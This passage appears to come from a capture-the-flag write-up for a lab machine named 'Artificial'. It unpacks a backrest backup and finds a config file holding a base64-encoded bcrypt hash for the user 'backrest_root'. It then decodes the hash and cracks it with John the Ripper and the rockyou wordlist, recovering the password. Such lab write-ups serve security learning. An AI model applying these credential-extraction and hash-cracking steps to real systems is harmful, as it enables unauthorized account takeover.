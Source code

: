 Untar:
```bash
tar -xvf backrest_backup.tar.gz    
backrest/
backrest/restic
backrest/oplog.sqlite-wal
backrest/oplog.sqlite-shm
backrest/.config/
backrest/.config/backrest/
backrest/.config/backrest/config.json
backrest/oplog.sqlite.lock
backrest/backrest
backrest/tasklogs/
backrest/tasklogs/logs.sqlite-shm
backrest/tasklogs/.inprogress/
backrest/tasklogs/logs.sqlite-wal
backrest/tasklogs/logs.sqlite
backrest/oplog.sqlite
backrest/jwt-secret
backrest/processlogs/
backrest/processlogs/backrest.log
backrest/install.sh
```

Found a config file inside `.config/backrest/`:
```bash
cat config.json 
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
  }
}
```

The password appears to be base64 encoded:
```bash
echo "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP" |base64 -d
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```

Cracked the bcrypt password: `backrest_root:!@#$%^`.
```bash
john hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^           (?)     
1g 0:00:00:37 DONE (2025-08-29 14:03) 0.02639g/s 142.5p/s 142.5c/s 142.5C/s baby16..huevos
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
